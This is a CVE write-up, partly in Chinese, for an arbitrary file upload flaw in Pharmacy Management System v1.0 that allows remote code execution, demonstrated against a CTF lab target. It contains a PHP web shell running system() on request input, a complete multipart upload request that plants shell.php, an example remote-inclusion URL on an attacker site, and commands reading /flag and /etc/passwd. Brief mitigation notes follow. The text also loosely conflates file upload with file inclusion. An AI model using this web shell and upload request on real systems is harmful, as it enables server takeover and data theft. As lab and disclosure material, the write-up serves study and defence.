


# CVE-2022-30887

## Description

多语言药房管理系统 (MPMS) 是用 PHP 和 MySQL 开发的, 该软件的主要目的是在药房和客户之间提供一套接口，客户是该软件的主要用户。

该软件有助于为药房业务创建一个综合数据库，并根据到期、产品等各种参数提供各种报告。

该 CMS(Pharmacy Management System v1.0) 中的 `php_action/editProductImage.php` 存在任意文件上传漏洞(File Inclusion Attack)，进而导致任意代码执行(RCE)。

## What is a File Inclusion Attack

File Upload vulnerabilities are usually a vulnerability that allows a script to run. It works when we upload the file to the server and enter a command on the uploaded file. File upload vulnerabilities are divided into two types;

- LFI (Local File Inclusion)
- RFI (Remote File Inclusion)

### LFI (Local File Inclusion)

This vulnerability occurs when the local files on the server include the file retrieved from the user. values received from the user must be sterilized.

Example of LFI (Local File Inclusion) ;

```
<?php
if($_REQUEST['s'])
 {  
 system($_REQUEST['s']);
 } 
 else
  phpinfo();?>
```

### RFI (Remote File Inclusion)

This vulnerability works when the attacker upload malware from a remote server.

Example of RFI (Remote File Inclusion) ;

`www.victim_site.com/abc.php?test=http://www.attacker_site.com/attack_page`

## Explanation of exploit

1. 这里使用春秋云镜的靶场 https://yunjing.ichunqiu.com/cve/detail/748
2. 打开站点并用 Burp Suite 捕获请求，并将请求 Send to Repeater
  
  
3. 在 Repeater 中写入如下 PoC （注意修改Host）发送后查看 Response 有 Sucess 字样则为上次成功， 文件被上传到 `/assets/myimages/` 目录下
  
4. 上传 shell.php 后在浏览器中即可执行任何命令，如获取 flag 为 `http://eci-2ze1l9hzv0tz04yrt7rl.cloudeci1.ichunqiu.com/assets/myimages/shell.php?s=cat%20/flag`
  
5. 执行其他命令如 `cat /etc/passwd`
  
  
## PoC
```
POST /php_action/editProductImage.php?id=1 HTTP/1.1
Host: eci-2zegbcou4c05rxuhfujv.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------208935235035266125502673738631
Content-Length: 556
Connection: close
Cookie: PHPSESSID=t1jo541l52f76t9upiu0pbqv0c
Upgrade-Insecure-Requests: 1

-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="old_image"


-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: image/jpeg

<?php
if($_REQUEST['s']) {
  system($_REQUEST['s']);
  } else phpinfo();
?>
</pre>
</body>
</html>
-----------------------------208935235035266125502673738631
Content-Disposition: form-data; name="btn"


-----------------------------208935235035266125502673738631--
```

## Mitigation
- ensure you only accept characters such as `a-Z0-9` and do not allow `..` or `/` or `%00` (null byte)
- Be ensure `allow_url_include flag` must be off
- acording to owasp 10 Remediation; "Application can maintain a *white list of files, that may be included by the page, and then use an identifier (for example the index number) to access to the selected file. Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path"

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-30887
- https://github.com/MuallimNaci/CVE-2022-30887
